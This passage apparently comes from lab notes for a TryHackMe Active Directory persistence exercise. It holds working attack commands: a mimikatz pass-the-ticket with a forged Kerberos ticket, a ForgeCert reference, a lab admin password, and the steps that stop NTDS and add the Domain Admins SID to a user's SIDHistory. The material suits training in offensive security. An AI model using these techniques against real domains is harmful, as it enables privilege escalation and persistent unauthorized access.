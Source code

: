 ```powershell
# mimikatz

mimikatz # kerberos::ptt f4uPwnd.kirbi

mimikatz # exit
```

>private key

>ForgeCert.exe

>kerberos::ptt ticket.kirbi


## Task 5

```bash
# kali-vm

export AD=za.tryhackme.loc
export adminUser=Administrator
export adminPass=tryhackmewouldnotguess1@

ssh $adminUser@$AD@thmdc.$AD
```

```powershell
powershell -ep bypass

Get-ADUser 'jason.jackson' -Properties sidhistory,memberof

DistinguishedName : CN=jason.jackson,OU=Finance,OU=People,DC=za,DC=tryhackme,DC=loc
Enabled           : True
GivenName         : Jason
MemberOf          : {CN=Internet Access,OU=Groups,DC=za,DC=tryhackme,DC=loc}
Name              : jason.jackson
ObjectClass       : user
ObjectGUID        : cb65e169-378e-4913-8184-fbb1a6ac45d8
SamAccountName    : jason.jackson
SID               : S-1-5-21-3885271727-2693558621-2658995185-1163
SIDHistory        : {}
Surname           : Jackson
UserPrincipalName :


Get-ADGroup 'Domain Admins'

DistinguishedName : CN=Domain Admins,CN=Users,DC=za,DC=tryhackme,DC=loc
GroupCategory     : Security
GroupScope        : Global
Name              : Domain Admins
ObjectClass       : group
ObjectGUID        : 3a8e1409-c578-45d1-9bb7-e15138f1a922
SamAccountName    : Domain Admins
SID               : S-1-5-21-3885271727-2693558621-2658995185-512


Stop-Service ntds -Force

Add-ADDBSidHistory -SamAccountName 'jason.jackson' -SidHistory 'S-1-5-21-3885271727-2693558621-2658995185-512' -DatabasePath 'C:\Windows\NTDS\ntds.dit'

Start-Service ntds
```
